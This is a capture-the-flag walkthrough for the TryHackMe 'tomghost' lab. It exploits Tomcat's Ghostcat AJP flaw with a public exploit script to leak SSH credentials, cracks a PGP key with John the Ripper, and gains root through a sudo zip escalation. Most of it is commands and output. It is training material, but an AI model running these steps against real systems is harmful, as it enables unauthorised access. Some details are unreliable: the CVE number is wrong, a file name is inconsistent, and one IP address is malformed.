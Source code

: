 ```yaml
---
title: THM - tomghost
tags: [thm, ]
---
```


<div style="text-align:center;">
<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/016dea7c96e8b422241016405b571c8b.jpeg" alt="Challenge logo" style="height:150px;">
</div>

Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

As usual, we start with a simple nmap scan

```
$ nmap -sC -sV 10.10.23.208

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (EdDSA)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
MAC Address: 02:82:7E:1F:80:97 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Start with the web server accessible at the port 8080. Nothing more interesting rather than Apache Tomcat default page.

![]()

With a simple online search we can see a pretty known vulnerability for the same version: Ghostcat. This vulnerability, classified as CVE-2019-1938, is a file read/inclusion vulnerability in the AJP connector in Apache Tomcat. This is enabled by default with a default configuration port of 8009. A remote, unauthenticated attacker, could exploit this vulnerability to read web application files from a vulnerable server. In instances where the vulnerable web server allows file upload, an attacker could upload malicious JSP code within a variety of file types and trigger this vulnerability to gain remote code execution.

Let's use searchsploit to find some potential exploits.

```
$ searchsploit ghostcat

-------------------------------------------------------- -----------------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- -----------------------------
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion       | multiple/webapps/48143.py
-------------------------------------------------------- -----------------------------
Shellcodes: No Results
```

Let's mirror it in our machine.

```
$ searchsploit -m multiple/webapps/48143.py
```

Run it to read `web.xml` file

```
$ python 48143.py -p 8009 -f WEB-INF/web.xml 10.10.23.208

...
  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>
...
```

We gather some credentials. Try to log in through SSH

```
$ ssh skyfuck@10.10.23.208

skyfuck@ubuntu:~$
```

The `home/merlin` directory is group readable. We can read the user flag inside his home directory

```
skyfuck@ubuntu:~$ cat /home/merlin/user.txt

THM{GhostCat_1s_so_[redacted]}
```

Inside skyfuck's home directory we can see two interesting files

```
skyfuck@ubuntu:~$ ls -l

total 12
-rw-rw-r-- 1 skyfuck skyfuck  394 Mar 10  2020 credential.pgp
-rw-rw-r-- 1 skyfuck skyfuck 5144 Mar 10  2020 tryhackme.asc
```

`credential.pgp` is a file encrypted with a public key. `credential.asc` is the private key used to decrypt the messages. We can try to crack the private one with John The Ripper. Let's download them inside our machine

```
$ scp skyfuck@10.10.23.208:/home/skyfuck/credential.pgp
$ scp skyfuck@10.10.23.208:/home/skyfuck/tryhackme.asc
```

Let's crack them

```
$ gpg2john tryhackme.asc > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash

alexandru        (tryhackme)
```

We have to import the private key and then decrypt the message.

```
$ gpg --import tryhackme.asc
$ gpg -d credential.pgp

gpg: WARNING: cypher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We have a new pair of credentials. Let's use them to log into the machine as `merlin`.

```
$ ssh merlin@10.1.0.23.208

merlin@ubuntu:~$
```

Let's see which commands he can execute with sudo

```
merlin@ubuntu:~$ sudo -l

Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

`zip` is a privesc path. Go to GTFObins and use the following commands

```
merlin@ubuntu:~$ cd /tmp
merlin@ubuntu:/tmp$ TF=$(mktemp -u)
merlin@ubuntu:/tmp$ sudo zip $TF /etc/hosts -T -TT 'sh #'

# whoami
root
```

Let's get the flag

```
# cat /root/root.txt

THM{Z1P_1S_[redacted]}
```